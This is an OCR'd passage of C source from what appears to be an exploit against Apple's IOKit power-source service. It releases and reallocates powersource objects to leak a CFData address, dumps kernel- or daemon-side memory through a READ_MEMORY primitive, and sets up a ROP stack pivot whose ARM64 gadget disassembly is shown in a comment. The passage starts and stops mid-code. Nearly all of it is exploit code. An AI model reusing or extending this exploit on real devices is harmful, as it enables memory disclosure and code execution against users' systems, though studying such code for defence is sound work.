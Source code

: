 ```c
            continue;
        }
        DumpHex((const void*)guess, 0x100);
        Iter = 100;
#endif
        break;

    }
    // it looks like we failed, let's repeat
    if (paddr == 0) {
        printf("[-] Failed to get a CFData address, let's repeat\n");
        for(int i=0; i<pscnt; i++) {
            io_ps_release_pspowersource(service_port,ps[i]);
            ps[i] = -1;
        }
        goto repeat;
    }

    *ps_id = ps[start - 1];
    ps[start - 1] = -1;
    // release all allocated ps objects except the target one
    /*
    for(int i=0; i<pscnt; i++)
        io_ps_release_pspowersource(service_port,ps[i]);
    */
    prestore_size = getpagesize();
    prestore = do_dummy_allocate_p(prestore_size, 0);
    printf("[+] Retrieving Memory content of 0x%llx with size of 0x%x\n",paddr,prestore_size);
    for(int i =0;i<prestore_size;i+=0x1000) {
        Iter = 1000;

        if(!READ_MEMORY(paddr+i, 0x1000, 0x1234+i, &guess)) {
            printf("failed\n");
            abort();
        }
        memcpy(&prestore[i], (void*)guess, 0x1000);
        vm_deallocate(mach_task_self(),guess,0x1000);
    }
#if 0
    printf("Reading prestore memory \n");
    DumpHex((const void*)prestore, getpagesize());
#endif

    return paddr;
}
uint64_t rop_offset = 0;
uint64_t stack_offset = 0;
static inline void rop_make_stack_pivot(uint64_t stack_pointer, uint64_t lr)
{
#if 0 /* stack pivot gadget */
    0x1f6e7c5a0 <+8>:  ldr    x16, [x16, #0x38] // gadget starts here
    0x1f6e7c5a4 <+12>: ldp    x19, x20, [x0]
    0x1f6e7c5a8 <+16>: ldp    x21, x22, [x0, #0x10]
    0x1f6e7c5ac <+20>: ldp    x23, x24, [x0, #0x20]
    0x1f6e7c5b0 <+24>: ldp    x25, x26, [x0, #0x30]
    0x1f6e7c5b4 <+28>: ldp    x27, x28, [x0, #0x40]
    0x1f6e7c5b8 <+32>: ldp    x10, x11, [x0, #0x50]
    0x1f6e7c5bc <+36>: ldr    x12, [x0, #0x60]
    0x1f6e7c5c0 <+40>: ldp    d8, d9, [x0, #0x70]
    0x1f6e7c5c4 <+44>: ldp    d10, d11, [x0, #0x80]
    0x1f6e7c5c8 <+48>: ldp    d12, d13, [x0, #0x90]
    0x1f6e7c5cc <+52>: ldp    d14, d15, [x0, #0xa0]
    0x1f6e7c5d0 <+56>: eor    x29, x10, x16
```
